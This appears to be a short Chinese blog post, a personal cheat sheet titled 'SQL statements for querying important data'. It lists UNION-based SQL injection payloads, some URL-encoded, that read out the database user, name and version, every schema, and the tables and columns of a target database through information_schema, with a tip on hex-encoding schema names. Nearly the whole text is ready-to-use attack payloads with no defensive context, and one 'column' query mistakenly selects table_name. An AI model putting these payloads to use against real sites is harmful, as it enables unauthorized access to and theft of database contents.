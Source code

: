```yaml
---
title: 查询重要数据的sql语句
date: 2018-10-14 18:13:10
tags: sql
---
```



查询用户名，数据库名，数据库版本信息：

```sql
union select 1,2,(concat_ws(char(32,58,32),user(),database(),version())) %23
```

查询所有数据库名

```sql
union select 1,schema_name from information_schema.schemata
```

查询一个库中所有的表的名字

```sql
union select group_concat(char(32),table_name,char(32)) from information_schema.tables   where table_schema=0x7365637572697479  %23
```

注意。在系统自带的表中查东西，where后面的值应该是单引号包裹或者16进制编码，通常用16进制

```sql
union select 1,table_name from information_schema.tables where table_schema='my_db'
```

查询一个表中所有列的名字

```sql
union select group_concat(char(32),table_name,char(32)) from information_schema.COLUMNS   where table_schema=0x7365637572697479  %23

union select 1,column_name from information_schema.columns where table_schema='my_db'
```
